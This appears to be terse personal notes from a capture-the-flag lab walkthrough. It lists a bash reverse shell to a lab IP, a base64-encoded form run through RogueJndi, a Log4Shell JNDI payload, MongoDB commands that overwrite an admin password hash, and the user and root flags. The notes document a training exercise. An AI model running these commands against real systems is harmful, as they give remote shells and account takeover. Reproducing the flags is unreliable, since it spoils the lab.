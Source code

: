 ## Key Takeaways
1. echo 'bash -c bash -i >&/dev/tcp/10.10.14.66/4444 0>&1' | base64
2. YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjYvOTAwMSAwPiYxCg==
3. java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNDMvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.43"
4. 6ced1a6a89e666c0620cdb10262ba127 user flag
5. ${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}
6. mkpasswd -m sha-512 Password1234
7. mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$HRc4ISf8xrbAhMlq$vnFX2yctDTwAOcowQRKCptagCwjZadpDe3Y8ahdLttuf2hS4q3gxP9I9cfqH8g37EQxTLsP5Vfj/Xsmbii3Ph."}})'
8. Went to dashboard and REALLY conveniently there is user and password for ssh bruh
9. e50bc93c75b634e4b272d2f771c33681 root flag
